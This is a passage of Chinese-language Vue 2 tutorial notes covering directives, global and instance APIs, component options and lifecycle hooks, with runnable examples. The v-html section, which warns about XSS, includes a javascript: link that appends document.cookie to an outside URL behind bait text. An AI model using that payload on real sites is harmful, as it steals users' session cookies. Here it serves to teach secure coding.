            el: "#root",
            data: {
                keyWord: "",
                sortType: 0, //0原顺序 1降序 2升序
                persons: [
                    { id: "001", name: "马冬梅", age: 30, sex: "女" },
                    { id: "002", name: "周冬雨", age: 31, sex: "女" },
                    { id: "003", name: "周杰伦", age: 18, sex: "男" },
                    { id: "004", name: "温兆伦", age: 19, sex: "男" }
                ]
            },
            computed: {
                filPerons() {
                    const arr = this.persons.filter(p => {
                        return p.name.indexOf(this.keyWord) !== -1;
                    });
                    //判断一下是否需要排序
                    if (this.sortType) {
                        arr.sort((p1, p2) => {
                            return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age;
                        });
                    }
                    return arr;
                }
            }
        });
    </script>
</body>
```


### v-text

1. 作用：向其所在的节点中渲染文本内容。会替换掉节点中的`所有文本内容`

2. 与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。

````html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-text="name"></div>
        <div v-text="str"></div>
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷',
            str:'<h3>你好啊！</h3>'
        }
    })
</script>
````


### v-html

1. 作用：向指定节点中渲染包含html结构的内容。

2. 与插值语法的区别：

​         (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。

​         (2).v-html可以识别html结构。

3. 严重注意：v-html有安全性问题！！！！

​         (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

​         (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>
</body>
<!-- 引入Vue -->
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```


### v-cloak

v-cloak指令（没有值）：

​      1.本质是一个特殊属性，`Vue实例创建完毕并接管容器后，会删掉v-cloak属性`

​      2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<style>
    [v-cloak]{
        display:none;
    }
</style>
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2 v-cloak>{{name}}</h2>
    </div>
    <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```


### v-once

1. v-once所在节点在初次动态渲染后，就视为静态内容了。

2. 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2 v-once>初始化的n值是:{{ n }}</h2>
        <h2>当前的n值是:{{ n }}</h2>
        <button @click="n++">点我n+1</button>
    </div>
</body>
<!-- 引入Vue -->
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

    new Vue({
        el: "#root",
        data: {
            n: 1
        }
    });
</script>
```


### v-pre

​     1.跳过其所在节点的编译过程。

​     2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2 v-pre>Vue其实很简单</h2>
        <h2>当前的n值是:{{ n }}</h2>
        <button @click="n++">点我n+1</button>
    </div>
</body>
<!-- 引入Vue -->
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

    new Vue({
        el: "#root",
        data: {
            n: 1
        }
    });
</script>
```


### v-slot

- **参数**：插槽名 (可选，默认值是 `default`)

- 限用于`<template>`

- **用法**：提供具名插槽或需要接收 prop 的插槽。

- **示例**：

  ```html
  <!-- 具名插槽 -->
  <base-layout>
    <template v-slot:header>
      Header content
    </template>
  
    Default slot content
  
    <template v-slot:footer>
      Footer content
    </template>
  </base-layout>
  
  <!-- 接收 prop 的具名插槽 -->
  <infinite-scroll>
    <template v-slot:item="slotProps">
      <div class="item">
        {{ slotProps.item.text }}
      </div>
    </template>
  </infinite-scroll>
  
  <!-- 接收 prop 的默认插槽，使用了解构 -->
  <mouse-position v-slot="{ x, y }">
    Mouse position: {{ x }}, {{ y }}
  </mouse-position>
  ```

## Vue.?


### set()`为后面添加的属性追加响应式`

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h1>学校信息</h1>
        <h2>学校名称：{{school.name}}</h2>
        <h2>学校地址：{{school.address}}</h2>
        <h2>校长是：{{school.leader}}</h2>
        <hr/>
        <h1>学生信息</h1>
        <button @click="addSex">添加一个性别属性，默认值是男</button>
        <!-- Vue不会将underfined展示在页面上 -->
        <h2>姓名：{{student.name}}</h2>
        <h2 v-if="student.sex">性别：{{student.sex}}</h2>
        <h2>年龄：真实{{student.age.rAge}}，对外{{student.age.sAge}}</h2>
        <h2>朋友们</h2>
        <ul>
            <li v-for="(f,index) in student.friends" :key="index">
                {{f.name}}--{{f.age}}
            </li>
        </ul>
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el:'#root',
        data:{
            school:{
                name:'尚硅谷',
                address:'北京',
            },
            student:{
                name:'tom',
                age:{
                    rAge:40,
                    sAge:29,
                },
                friends:[
                    {name:'jerry',age:35},
                    {name:'tony',age:36}
                ]
            }
        },
        methods: {
            addSex(){
                //this.$set(this.student,'sex','男')
                Vue.set(this.student,'sex','男')
            }
        }
    })
</script>
```


### extend() 函数传入一个组件配置信息对象`创建一个组件`

```javascript
const school = Vue.extend({
    template:`
<div class="demo">
<h2>学校名称：{{schoolName}}</h2>
<h2>学校地址：{{address}}</h2>
<button @click="showName">点我提示学校名</button>	
</div>
`,
    // el:'#root', //组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
    // data一定要写成函数返回值的形式，写成函数返回值的形式每次调用都会返回一个新的对象，
    // 当在别处修改对象的时候，不会连带着连锁反应修改掉所有的对象
    data(){
        return {
            schoolName:'尚硅谷',
            address:'北京昌平'
        }
    },
    methods: {
        showName(){
            alert(this.schoolName)
        }
    },
})
```


### config

`阻止vue在启动时产生生产提示`

```javascript
Vue.config.productionTip = false;
```

 `定义一个别名按键`

```javascript
Vue.config.keyCodes.huiche = 13
```


### component()`注册全局组件`

`注册全局组件`

这样直接就可以在项目中使用这个标签

```javascript
//第一步：创建hello组件
const hello = Vue.extend({
    template:`
<div>	
<h2>你好啊！{{name}}</h2>
</div>
`,
    data(){
        return {
            name:'Tom'
        }
    }
})

//第二步：全局注册组件，第一个参数是组件的名字，第二个参数是组件
Vue.component('hello',hello)

```

```js
import TypeNav from '@/components/TypeNav'

// 注册全局组件
Vue.component(TypeNav.name, TypeNav);
```


### mixin()

全局混合，在所有的组件里面都会有这个混合，`谨慎使用`

Vue.mixin(xxx) xxx为混合对象


### filter()注册过滤器

```html
<body>
		<!-- 
			过滤器：
				定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
				语法：
						1.注册过滤器：Vue.filter(name,callback) 或 new Vue{filters:{}}
						2.使用过滤器：{{ xxx | 过滤器名}}  或  v-bind:属性 = "xxx | 过滤器名"
				备注：
						1.过滤器也可以接收额外参数、多个过滤器也可以串联
						2.并没有改变原本的数据, 是产生新的对应的数据
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>显示格式化后的时间</h2>
			<!-- 计算属性实现 -->
			<h3>现在是：{{fmtTime}}</h3>
			<!-- methods实现 -->
			<h3>现在是：{{getFmtTime()}}</h3>
			<!-- 过滤器实现 -->
			<h3>现在是：{{time | timeFormater}}</h3>
			<!-- 过滤器实现（传参） -->
			<h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
			<h3 :x="msg | mySlice">尚硅谷</h3>
		</div>

		<div id="root2">
			<h2>{{msg | mySlice}}</h2>
		</div>
	</body>
	<script type="text/javascript" src="../vue.js"></script>
	<script type="text/javascript" src="../dayjs.min.js"></script>
	<script type="text/javascript">
		Vue.config.productionTip = false
		//全局过滤器,必须写在Vue实例之前
		Vue.filter('mySlice',function(value){
			return value.slice(0,4)
		})
		
		new Vue({
			el:'#root',
			data:{
				time:1621561377603, //时间戳
				msg:'你好，尚硅谷'
			},
			computed: {
				fmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			methods: {
				getFmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			//局部过滤器
			filters:{
				timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){
					// console.log('@',value)
					return dayjs(value).format(str)
				}
			}
		})

		new Vue({
			el:'#root2',
			data:{
				msg:'hello,atguigu!'
			}
		})
	</script>
```


### use() 使用插件plugin `Vue.use(plugin)`

```
安装 Vue.js 插件。如果插件是一个对象，必须提供 `install` 方法。如果插件是一个函数，它会被作为 install 方法。install的第一个参数是Vue构造函数，第二个及以后的参数是使用者自己传递的参数

该方法需要在调用 `new Vue()` 之前被调用。

当 install 方法被多次调用，插件将只会被安装一次。

 作用：

​      1、添加全局过滤器

​      2、添加全局指令

​      3、配置全局混入

​      4、原型对象上添加实例方法

​      ...
```

```javascript
export default {
  install(Vue){
    //全局过滤器,必须写在Vue实例之前
		Vue.filter('mySlice',function(value){
			return value.slice(0,4)
    })
    //定义全局指令
		Vue.directive('fbind',{
			//指令与元素成功绑定时（一上来）
			bind(element,binding){
				element.value = binding.value
			},
			//指令所在元素被插入页面时
			inserted(element){
				element.focus()
			},
			//指令所在的模板被重新解析时
			update(element,binding){
				element.value = binding.value
			}
    })
    // 定义全局混入
    Vue.mixin({
      data(){
        return {
          glo: '全局混入data'
        }
      }
    })
    // 原型对象上添加实例方法
    Vue.prototype.$fnc = function(number){
      return number + 1
    }
  }
};
```


### nextTick() 在下次 DOM 更新循环结束之后执行延迟回调。在修改数据之后立即使用这个方法，获取更新后的 DOM。

```
// 修改数据
vm.msg = 'Hello'
// DOM 还没有更新
Vue.nextTick(function () {
  // DOM 更新了
})

// 作为一个 Promise 使用 (2.1.0 起新增，详见接下来的提示)
Vue.nextTick()
  .then(function () {
    // DOM 更新了
  })
```

## vm.$?

`vm是vc的超集，一般vm身上有的方法vc都有`


### $mount() 挂载

```html
<body>
  <script src="../vue.js"></script>
  <script>
    Vue.config.productionTip = false;
  </script>
  <div id="root">
    {{value}}
  </div>
  <script>
    const vm = new Vue({
      el: '#root',
      data(){
        return {
          value: 'hahaha'
        }
      }
    })
    vm.$mount('#root')
  </script>
</body>
```

### $watch() 监视器

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2>今天天气很{{info}}</h2>
        <button @click="changeWeather">切换天气</button>
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el:'#root',
        data:{
            isHot:true,
        },
        computed:{
            info(){
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather(){
                this.isHot = !this.isHot
            }
        },
    })

    vm.$watch('isHot',{
        immediate:true, //初始化时让handler调用一下
        //handler什么时候调用？当isHot发生改变时。
        handler(newValue,oldValue){
            console.log('isHot被修改了',newValue,oldValue)
        }
    })
    
    //简写 当只有handler的时候
    /* vm.$watch('isHot',(newValue,oldValue)=>{
			console.log('isHot被修改了',newValue,oldValue,this)
		}) */
</script>
```


### $set() `为后面添加的属性追加响应式`

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h1>学校信息</h1>
        <h2>学校名称：{{school.name}}</h2>
        <h2>学校地址：{{school.address}}</h2>
        <h2>校长是：{{school.leader}}</h2>
        <hr/>
        <h1>学生信息</h1>
        <button @click="addSex">添加一个性别属性，默认值是男</button>
        <!-- Vue不会将underfined展示在页面上 -->
        <h2>姓名：{{student.name}}</h2>
        <h2 v-if="student.sex">性别：{{student.sex}}</h2>
        <h2>年龄：真实{{student.age.rAge}}，对外{{student.age.sAge}}</h2>
        <h2>朋友们</h2>
        <ul>
            <li v-for="(f,index) in student.friends" :key="index">
                {{f.name}}--{{f.age}}
            </li>
        </ul>
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el:'#root',
        data:{
            school:{
                name:'尚硅谷',
                address:'北京',
            },
            student:{
                name:'tom',
                age:{
                    rAge:40,
                    sAge:29,
                },
                friends:[
                    {name:'jerry',age:35},
                    {name:'tony',age:36}
                ]
            }
        },
        methods: {
            addSex(){
                // Vue.set(this.student,'sex','男')
                this.$set(this.student,'sex','男')
            }
        }
    })
</script>
```


### $refs()

通过ref标签属性获取组件实例vm


### $on() 绑定自定义事件

```javascript
this.$refs.Class.$on('getClassName',this.getClassName)
```


### $once() 绑定自定义事件只执行一次

```javascript
this.$refs.Class.$once('getClassName',this.getClassName)
```


### $emit() 触发自定义事件

```javascript
this.$emit("atguigu", this.name,1);
```


### $off() 解绑自定义事件

```javascript
// 解绑一个自定义事件
// this.$off('atguigu')
// 解绑多个自定义事件
// this.$off(['atguigu','demo'])
// 解绑所有的自定义事件
this.$off();
```


### $nextTick()

将回调延迟到下次 DOM 更新循环之后执行。在修改数据之后立即使用它，然后等待 DOM 更新。它跟全局方法 `Vue.nextTick` 一样，不同的是回调的 `this` 自动绑定到调用它的实例上。

````js
new Vue({
  // ...
  methods: {
    // ...
    example: function () {
      // 修改数据
      this.message = 'changed'
      // DOM 还没有更新
      this.$nextTick(function () {
        // DOM 现在更新了
        // `this` 绑定到当前实例
        this.doSomethingElse()
      })
    }
  }
})
````


## Vue({})


### Vue({el})挂载

提供一个在页面上已存在的 DOM 元素作为 Vue 实例的挂载目标。可以是 `CSS 选择器`，也可以是`一个 HTMLElement 实例（不常用）`。


### Vue({data})组件数据

`data有两种写法对象式和函数式`

注意`不要写成箭头函数`，不然this指向就不是vue实例或组件，vue实例其实也可以理解为一个组件

```html
<body>
  <script src="../vue.js"></script>
  <div id="root">
    <span>hello,{{who}}</span>
  </div>
  <script>
    // 阻止vue在启动时产生生产提示
    Vue.config.productionTip = false;
  </script>
  <script>
    new Vue({
      el: '#root',
      // 对象式
      /* data: {
        who:'world',
      } */
      // 函数式 注意不要写出箭头函数，不然this指向就不是vue实例或组件，vue实例其实也可以理解为一个组件
      data(){
        return {
            who:'world',
        }
    }
    })
  </script>
</body>
```


### Vue({computed})计算属性

1. 定义：`要用的属性不存在，要通过已有属性计算得来`。

2. 原理：底层借助了Objcet.defineproperty方法提供的getter和setter。

3. get函数什么时候执行？

​        (1).初次读取时会执行一次。

​        (2).`当依赖的数据发生改变时会被再次调用`。

4. 优势：`与methods实现相比，内部有缓存机制（复用），效率更高，调试方便`

5. 备注：

​       1.计算属性最终会出现在vm上，"直接读取"使用即可。

​       2.`如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生改变`。

​		3.一些简单的计算属性，且后续不需要修改时，可以直接使用模板语法，但是从代码规范来说不推荐，不要在结构中书写过多的js代码

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        姓：<input type="text" v-model="firstName"> <br/><br/>
        名：<input type="text" v-model="lastName"> <br/><br/>
        测试：<input type="text" v-model="x"> <br/><br/>
        全名：<span>{{fullName}}</span> <br/>
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el:'#root',
        data:{
            firstName:'张',
            lastName:'三',
            x:'你好'
        },
        // 计算属性：拿data中的属性处理之后形成新的属性
        computed:{
            fullName:{
                //get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
                //get会有缓存，当再次读取时，所依赖的数据没有发生变化，则不会再调用get()
                //get什么时候调用？1.初次读取fullName时。2.所依赖的数据发生变化时。
                get(){
                    console.log('get被调用了')
                    // console.log(this) //此处的this是vm
                    return this.firstName + '-' + this.lastName + this.x
                },
                //set不是一定要的，当仅仅只是展示时，不会调用。set什么时候调用? 当fullName被修改时。vm.fullName = 'xxx',一般会写在函数中，this指向为vm所以会this.fullName = 'xxx'
                set(value){
                    console.log('set',value)
                    const arr = value.split('-')
                    this.firstName = arr[0]
                    this.lastName = arr[1]
                }
            },
            //简写的前提，没有set，只有get
            /* fullName(){
                console.log('get被调用了')
                return this.firstName + '-' + this.lastName + this.x
            } */
        }
    })
</script>
```


### Vue({methods})定义方法

`切记不要写成箭头函数就好`

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        姓：<input type="text" v-model="firstName"> <br/><br/>
        名：<input type="text" v-model="lastName"> <br/><br/>
        全名：<span>{{fullName()}}</span>
    </div>
</body>
<!-- 引入Vue -->
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            firstName:'张',
            lastName:'三'
        },
        methods: {
            fullName(){
                console.log('@---fullName')
                return this.firstName + '-' + this.lastName
            }
        },
    })
</script>
```


### Vue({watch})监视数据

1. 当被监视的属性变化时, 回调函数自动调用, 进行相关操作

2. 监视的属性必须存在，才能进行监视！！

3. 监视的两种写法：

​       (1).new Vue时传入watch配置

​       (2).通过vm.$watch监视

4. 监视属性可以监听data中的属性，也可以监视计算属性

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2>今天天气很{{info}}</h2>
        <button @click="changeWeather">切换天气</button>
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el:'#root',
        data:{
            isHot:true,
        },
        computed:{
            info(){
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather(){
                this.isHot = !this.isHot
            }
        },
        /* watch:{
				isHot:{
					immediate:true, //初始化时让handler调用一下
					//handler什么时候调用？当isHot发生改变时。
					handler(newValue,oldValue){
						console.log('isHot被修改了',newValue,oldValue)
					}
				}
			} */
    })

    vm.$watch('isHot',{
        immediate:true, //初始化时让handler调用一下
        //handler什么时候调用？当isHot发生改变时。
        handler(newValue,oldValue){
            console.log('isHot被修改了',newValue,oldValue)
        }
    })
</script>
```


#### 深度监视

(1).Vue中的watch默认不监测对象内部值的改变（一层）。
(2).配置`deep:true`监测对象内部值改变（多层）。
备注：
(1).Vue自身可以监测对象内部值的改变，但`Vue提供的watch默认不可以,需要配置deep:true`
(2).`使用watch时根据数据的具体结构，决定是否采用深度监视。一般数组对象类型的数据都要开启深度监视`

```javascript
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2>今天天气很{{info}}</h2>
<button @click="changeWeather">切换天气</button>
<hr/>
            <h3>a的值是:{{numbers.a}}</h3>
<button @click="numbers.a++">点我让a+1</button>
<h3>b的值是:{{numbers.b}}</h3>
<button @click="numbers.b++">点我让b+1</button>
<button @click="numbers = {a:666,b:888}">彻底替换掉numbers</button>
{{numbers.c.d.e}}
</div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

const vm = new Vue({
    el:'#root',
    data:{
        isHot:true,
        numbers:{
            a:1,
            b:1,
            c:{
                d:{
                    e:100
                }
            }
        }
    },
    computed:{
        info(){
            return this.isHot ? '炎热' : '凉爽'
        }
    },
    methods: {
        changeWeather(){
            this.isHot = !this.isHot
        }
    },
    watch:{
        isHot:{
            // immediate:true, //初始化时让handler调用一下
            //handler什么时候调用？当isHot发生改变时。
            handler(newValue,oldValue){
                console.log('isHot被修改了',newValue,oldValue)
            }
        },
        //监视多级结构中某个属性的变化
        /* 'numbers.a':{
					handler(){
						console.log('a被改变了')
					}
				} */
        //监视多级结构中所有属性的变化
        numbers:{
            deep:true,
            handler(){
                console.log('numbers改变了')
            }
        }
    }
})

</script>
```


#### 监视简写

`当watch中只有handler时候，可以使用简写形式`

```javascript
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2>今天天气很{{info}}</h2>
<button @click="changeWeather">切换天气</button>
</div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

const vm = new Vue({
    el:'#root',
    data:{
        isHot:true,
    },
    computed:{
        info(){
            return this.isHot ? '炎热' : '凉爽'
        }
    },
    methods: {
        changeWeather(){
            this.isHot = !this.isHot
        }
    },
    watch:{
        //正常写法
        /* isHot:{
					// immediate:true, //初始化时让handler调用一下
					// deep:true,//深度监视
					handler(newValue,oldValue){
						console.log('isHot被修改了',newValue,oldValue)
					}
				}, */
        //简写，只有handler的时候
        /* isHot(newValue,oldValue){
					console.log('isHot被修改了',newValue,oldValue,this)
				} */
    }
})

//正常写法
/* vm.$watch('isHot',{
			immediate:true, //初始化时让handler调用一下
			deep:true,//深度监视
			handler(newValue,oldValue){
				console.log('isHot被修改了',newValue,oldValue)
			}
		}) */

//简写
/* vm.$watch('isHot',(newValue,oldValue)=>{
			console.log('isHot被修改了',newValue,oldValue,this)
		}) */

</script>
```


### Vue({filter})过滤器

过滤器：

​    定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。

​    语法：

​      1.`注册过滤器`：`全局过滤器 Vue.filter(name,callback) `或 `局部过滤器 new Vue{filters:{}}`

​      2.`使用过滤器`：`{{ xxx | 过滤器名}} ` 或  `v-bind:属性 = "xxx | 过滤器名"`

​    备注：

​      1.过滤器也`可以接收额外参数`、`多个过滤器也可以串联`

​      2.并`没有改变原本的数据, 是产生新的对应的数据`

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2>显示格式化后的时间</h2>
        <!-- 计算属性实现 -->
        <h3>现在是：{{fmtTime}}</h3>
        <!-- methods实现 -->
        <h3>现在是：{{getFmtTime()}}</h3>
        <!-- 过滤器实现 -->
        <h3>现在是：{{time | timeFormater}}</h3>
        <!-- 过滤器实现（传参） -->
        <h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
        <h3 :x="msg | mySlice">尚硅谷</h3>
    </div>

    <div id="root2">
        <h2>{{msg | mySlice}}</h2>
    </div>
</body>
<script type="text/javascript" src="../vue.js"></script>
<script type="text/javascript" src="../dayjs.min.js"></script>
<script type="text/javascript">
    Vue.config.productionTip = false
    //全局过滤器,必须写在Vue实例之前
    Vue.filter('mySlice',function(value){
        return value.slice(0,4)
    })

    new Vue({
        el:'#root',
        data:{
            time:1621561377603, //时间戳
            msg:'你好，尚硅谷'
        },
        computed: {
            fmtTime(){
                return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
            }
        },
        methods: {
            getFmtTime(){
                return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
            }
        },
        //局部过滤器
        filters:{
            timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){
                // console.log('@',value)
                return dayjs(value).format(str)
            }
        }
    })

    new Vue({
        el:'#root2',
        data:{
            msg:'hello,atguigu!'
        }
    })
</script>
```


### Vue({components})注册组件

`注册局部组件`

```javascript
const hello = Vue.extend({
    template:`
<div>	
<h2>你好啊！{{name}}</h2>
</div>
`,
    data(){
        return {
            name:'Tom'
        }
    }
})

new Vue({
    el:'#root',
    //第二步：注册组件（局部注册）
    components:{
        hello
    }
})
```


### Vue({props})接收传递给组件的数据

功能：让组件接收到外部传过来的数据

```javascript

  传递数据：
    <!-- 用v-bind的形式,后面双引号中的内容会被当成js表达式去解析，最后会解析成18number类型 -->
    <Demo name="shangguigu" :age="18"></Demo>
  接收数据：
    方式1：
      普通形式
      props:['name','age']
    方式2：
      限制数据类型的形式
      props:{
        name:String,
        age:Number
      }
    方式3：
      限制传递规则
      props:{
        name:{
          type:String,
          required:true
        },
        age:{
          type:Number,
          default:99
        }
      }
```

注意：

`props是只读的`，Vue底层会监测传递进来的值是否被改变，`Vue是不推荐修改值的`。但是业务如果需要，那么`只需要将要改变的数据传递给data中的一个属性存起来，修改的时候操作这个属性即可`。`因为Vue底层解析组件时，会优先解析props属性，然后再解析data属性`

`声明接收，但是没有传，也没有设置默认值，那么值就是undefined`

````javascript
props: ['initialCounter'],
data: function () {
  return {
    counter: this.initialCounter
  }
}
````


`App.vue`

```html
<template>
	<div>
		
		<School name="shanguigu" address="地址" :age="18"></School>
	</div>
</template>

<script>
	//引入组件
	import School from './components/School'

	export default {
		name:'App',
		components:{
			School,
		},
	}
</script>
```

`School.vue`

```javascript
<template>
  <div class="demo">
		<h1>{{msg}}</h1>
    <h2>{{name}}</h2>
    <h2>{{address}}</h2>
    <h2>{{myAge}}</h2>
		<button @click="myAge++">点我改变年龄</button>
  </div>
</template>
<script>
export default {
	name: "School",
	data(){
		return {
			msg:'message',
			myAge: this.age
		}
	},
  props: {
    name: {
      type: String,
      required: true
    },
    address: {
      type: String,
      required: true
		},
		age:{
			type: Number,
			default:100
		}
	},
};
</script>
<style>
.demo {
  background-color: pink;
}
</style>

```


### Vue({mixins})混合

功能：可以把多个组件共用的配置提取成一个混入mixin对象

  使用方式：

​    定义混合：（src下新建一个mixin.js文件）

    ```javascript
    export const hunhe1 = {
      data(){
        return {
          str: '混合1中的data'
        }
      },
      methods:{
        btn(){
          console.log('btn');
        }
      },
      mounted() {
        console.log('mounted渲染完成');
      },
    }
    
    export const hunhe2 = {
      data(){
        return {
          str2: '混合2中的data'
        }
      }
    }
    
    export const globalHunhe = {
      data(){
        return {
          glo: '全局data',
          msg: '全局的msg，冲突了，我显示了吗',
        }
      }
    }
    ```

​    使用混合：

​      main.js中全局混入：Vue.mixin(xxx)

​      局部混入：mixins:[xxx]

`School.vue`

```html
<template>
  <div class="school">
    <h1>{{msg}}</h1>
		<h2>{{str}}</h2>
		<h2>{{glo}}</h2>
		<button @click="btn">！！！</button>
  </div>
</template>
<script>
import { hunhe1 } from '../mixin.js'
export default {
  name: "School",
  data() {
    return {
      msg: "School组件"
    };
	},
	mixins:[hunhe1]
};
</script>
<style>
.school {
  background-color: skyblue;
}
</style>
```


​    注意：

​    1、当混合中的data中的属性和组件中自带的data中的属性冲突时，以`组件data中的属性值为准`

​    2、当混合中的methods中的方法和组件中methods中的方法冲突时，以`组件methods为准`

​    3、生命周期函数冲突时，`合并相同生命函数中的代码`


### Vue({name})组件命名

给组件命名

`手动配置name`用于vue开发者工具调试使用

或将`全局 ID 自动作为组件的 name`

```html
<template>  
<el-container id="app">
      <el-header>
        <navbar/>
        </el-header>   
  </el-container>
</template>
```


## vc({})

vc({})中的配置项和Vue({})的配置项大同小异

只介绍已知的特殊情况


### 无el

`组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。`


### propsData

创建组件实例时传递 props。主要作用是方便测试。

```javascript
var Comp = Vue.extend({
  props: ['msg'],
  template: '<div>{{ msg }}</div>'
})

var vm = new Comp({
  propsData: {
    msg: 'hello'
  }
})
```


## 生命周期函数

### 常用的生命周期钩子：

1. mounted: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。

2. beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

### 关于销毁Vue实例

1. 销毁后借助Vue开发者工具看不到任何信息。

2. 销毁后自定义事件会失效，但原生DOM事件依然有效。

3. 一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>分析生命周期</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root" :x="n">
			<h2 v-text="n"></h2>
			<h2>当前的n值是：{{n}}</h2>
			<button @click="add">点我n+1</button>
			<button @click="bye">点我销毁vm</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			// template会将真实divroot节点全部替换
			// <template>标签不会解析到页面中
			// template:`
			// 	<div>
			// 		<h2>当前的n值是：{{n}}</h2>
			// 		<button @click="add">点我n+1</button>
			// 	</div>
			// `,
			data:{
				n:1
			},
			methods: {
				add(){
					console.log('add')
					this.n++
				},
				bye(){
					console.log('bye')
					this.$destroy()
				}
			},
			watch:{
				n(){
					console.log('n变了')
				}
			},
			beforeCreate() {
				console.log('beforeCreate')
			},
			created() {
				console.log('created')
			},
			beforeMount() {
				console.log('beforeMount')
			},
			mounted() {
				console.log('mounted')
			},
			beforeUpdate() {
				console.log('beforeUpdate')
			},
			updated() {
				console.log('updated')
			},
			beforeDestroy() {
				console.log('beforeDestroy')
			},
			destroyed() {
				console.log('destroyed')
			},
		})
	</script>
</html>
```


## 组件分类


### 非单文件组件


#### 基本使用

Vue中使用组件的三大步骤：
					一、定义组件(创建组件)
					二、注册组件
					三、使用组件(写组件标签)

一、如何定义一个组件？
					使用`Vue.extend(options)创建`，其中options和new Vue(options)时传入的那个options几乎一样，但也有点区别；
					区别如下：
							1.`el不要写`，为什么？ ——— 最终所有的组件都要经过一个vm的管理，由vm中的el决定服务哪个容器。
